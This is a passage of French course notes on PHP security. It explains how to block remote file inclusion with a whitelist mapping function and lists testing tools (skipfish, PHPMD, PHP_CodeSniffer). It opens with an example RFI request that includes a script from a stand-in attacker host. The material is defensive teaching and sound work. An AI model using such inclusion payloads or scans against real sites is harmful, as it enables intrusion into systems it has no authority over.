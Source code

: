 `info.php?script=http://www.mechantpirate-a.fr/script.php`


**comment bloquer cela ?**

c'est de créér une fonction interne qui fait du mapping, on lui donne un nom puis
la fonction verifie si le ficher existe :

```php
function includeScript($key){
    $scriptBase = array(
        'menu' => 'plop.php'
    );

    return $scriptBase[$key];
}

$script = $_GET['script'];

include includeScript($script);
```

Puis quand on tape cette url :

`info.php?script=menu`

alors *plop.php* sera inclus.


**POUR TESTER SON SITE :**

* skipfish (web application security scanner). C'est un scanner qui va effectuer des test sur le site puis un rapport est generé (dit les possibilité de failles).

Il faut copier dictionnaires et signatures dans la racine du projet
puis dans le terminal :

`skipfish -o scan http://baliz.org`

Puis ouvrir l'index.html qui est le resultat du scan :
	* orange important
	* bleu moins important
	* gris des infos
	* vert des notes
 
* phpqatools.org, les outis pour la securité: **PHP_CodeSniffer** et **PHP Mess Detector**
pour garantire qu'un code est bien ecrit et q'un site est bien réalisé on parlera de qualité de code.
 
	* php mess detector (faire du code plus propre) :

```php
    pour le lancer, dans un terminal:
  	phpmd 
	
  	phpmd config html cleancode > phpmd.html
	```

	* php_code_sniffer (verifie le code)
    ```php
	pour le lancer:
	phpcs config
```
